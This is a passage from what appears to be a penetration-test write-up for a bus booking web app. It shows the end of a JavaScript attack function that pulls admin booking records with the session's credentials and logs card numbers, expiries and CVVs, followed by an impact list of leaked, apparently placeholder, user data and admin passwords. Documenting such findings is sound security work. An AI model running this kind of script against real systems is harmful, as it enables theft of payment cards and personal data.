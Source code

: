 ```javascript
    // Get all payment data
    const bookings = await fetch('/api/admin/bookings', {credentials: 'include'})
        .then(r => r.json());
    
    console.log('💳 Stolen credit cards:', bookings.length);
    bookings.forEach(booking => {
        console.log(`💰 ${booking.userName}: ${booking.cardNumber} ${booking.cardExpiry} ${booking.cardCvv}`);
    });
    
    console.log('✅ System fully compromised!');
    return { users, bookings };
}

// Execute the attack
compromiseBusBookSystem();
```

---

## 📊 Impact Assessment

### Data Compromised in Admin Access Attack

#### Customer Personal Information
- **Full Names**: John Smith, Sarah Johnson, System Administrator, Bus Manager
- **Email Addresses**: user@gmail.com, sarah.johnson@gmail.com, admin@busbook.com, manager@busbook.com
- **Phone Numbers**: +1-555-0002, +1-555-0003, +1-555-0001, +1-555-0004
- **User Passwords**: password, sarah123, admin123, manager123 (plain text)
- **User IDs**: MongoDB ObjectIds exposed

#### Financial Data (PCI DSS Violations)
- **Credit Card Numbers**: 
  - 4532-1234-5678-9012 (John Smith)
  - 5678-9012-3456-7890 (Sarah Johnson)
- **Card Expiry Dates**: 12/26, 08/27
- **CVV Codes**: 123, 456
- **Cardholder Names**: John Smith, Sarah Johnson
- **Transaction Amounts**: $179.98, $89.99

#### Travel Data
- **Booking Details**: Complete travel itineraries with MongoDB ObjectIds
- **Route Information**: New York ↔ Boston, Boston ↔ New York
- **Departure Dates**: 2024-09-15, 2024-09-20
- **Passenger Counts**: 2 passengers, 1 passenger
- **Booking Status**: All confirmed bookings exposed

#### System Access Credentials
- **Admin Account**: admin@busbook.com / admin123
- **Manager Account**: manager@busbook.com / manager123
- **MongoDB Database**: Full read/write access to cloud database
- **Session Tokens**: Active user sessions with weak configuration
- **Database Connection**: MongoDB Atlas connection string exposed

---